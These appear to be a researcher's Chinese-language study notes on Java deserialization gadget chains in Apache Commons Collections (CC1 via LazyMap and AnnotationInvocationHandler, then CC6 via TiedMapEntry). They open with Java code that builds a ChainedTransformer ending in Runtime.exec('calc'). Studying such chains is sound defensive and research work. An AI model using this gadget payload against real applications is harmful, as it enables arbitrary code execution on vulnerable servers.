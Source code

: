 ```java
Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer Chainedtransform = new ChainedTransformer(transformers);
        HashMap<Object,Object> map=new HashMap<Object, Object>() ;
        map.put("aaa","bbb");
     
        Map lazyMap = LazyMap.decorate(map, Chainedtransform);
        lazyMap.get(Chainedtransform);
```

为什么map添加了键值对,还能成功进入`if`循环

找到`containsKey`方法的解释是`map中的containsKey（key）方法是判断该key在map中是否有key存在。如果存在则返回true。如果不存在则返回false`换言之,其判断的是map里面是key是不是在map中存在,而运行时key显然不存在,所以便调用了key的`transform方法`

接下来找能调用`get`方法的类

还得是`AnnotationInvocationHandler`类

![image-20220312160852089](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220312160852089.png)

readObject中的memberTypes是注解的成员变量,无法控制

在该类的`invoke`方法中有一个get方法的调用

这个类实现了`InvocationHandler`接口,根据之前学习的java动态代理的使用,只要有它的代理调用了该类中的任何方法,都会调用invoke从而走到调用`get`



> 如何在`Object result = memberValues.get(member);`中将member改为`ChainedTransformer`

这里其实是我的理解出了问题,经过多次调试,只要通过动态代理调用`AnnotationInvocationHandler`中的方法,就能执行代码,并且传入到LazyMap中的key参数虽然跟着变化,但是还能执行

![image-20220313155923303](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220313155923303.png)

最后找到了原因,因为上一cc链中为了不让AnnotationInvocationHandler改变第一个Transformer中的值,使用了new ConstantTransformer(Runtime.class)在链式调用的时候给下一个Transformer传递值,如果保持这一修改不变,不管外部调用transform方法传递进来的参数是什么,都会被修改为Runtime.class从而执行下去

> 得到的教训,遇到不懂的代码要多耐心调试,跟着代码走下去,不要妄想一下就能看明白



#### CC6

这条链使用了TiedMapEntry.hashCode中对于getValue的调用而调用的get方法

![image-20220313175136879](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220313175136879.png)

![image-20220313175144689](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220313175144689.png)

这里调用get传递的参数是key,所以还是使用`new ConstantTransformer(Runtime.class)`修改传递进去的参数即可,所以实例化的时候key随便传递一个就行了
